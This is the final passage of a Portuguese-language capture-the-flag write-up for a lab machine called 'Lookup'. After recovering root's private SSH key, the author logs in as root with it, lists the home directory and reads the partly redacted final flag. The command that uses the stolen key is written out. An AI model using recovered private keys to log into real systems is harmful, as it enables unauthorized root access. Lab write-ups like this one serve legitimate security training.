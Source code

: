 ![id_rsa](/assets/img/posts/2025/02/lookup/id_rsa.png)

Conseguimos recupera-la, agora tentaremos realizar o acesso `ssh`, utilizando a chave privada do `root`.


```shell
┌──(root㉿estudos)-[/home/alex/Desktop]
└─# ssh -i id_rsa root@lookup.thm
root@lookup:~# ls -l
total 60K
drwx------  6 root root 4.0K May 13  2024 .
drwxr-xr-x 19 root root 4.0K Jan 11  2024 ..
lrwxrwxrwx  1 root root    9 Jun  2  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root 3.2K May 12  2024 .bashrc
drwx------  2 root root 4.0K Jan 11  2024 .cache
-rwxrwx---  1 root root   66 Jan 11  2024 cleanup.sh
drwx------  3 root root 4.0K Apr 17  2024 .config
drwxr-xr-x  3 root root 4.0K Jun 21  2023 .local
-rw-r--r--  1 root root  161 Jan 11  2024 .profile
-rw-r-----  1 root root   33 Jan 11  2024 root.txt
lrwxrwxrwx  1 root root    9 Jul 31  2023 .selected_editor -> /dev/null
drwx------  2 root root 4.0K Jan 11  2024 .ssh
-rw-rw-rw-  1 root root  17K May 13  2024 .viminfo
root@lookup:~# cat root.txt 
5a28[REDACTED]18e8
```

Conseguimos o acesso `ssh` e também nossa última flag deste CTF.







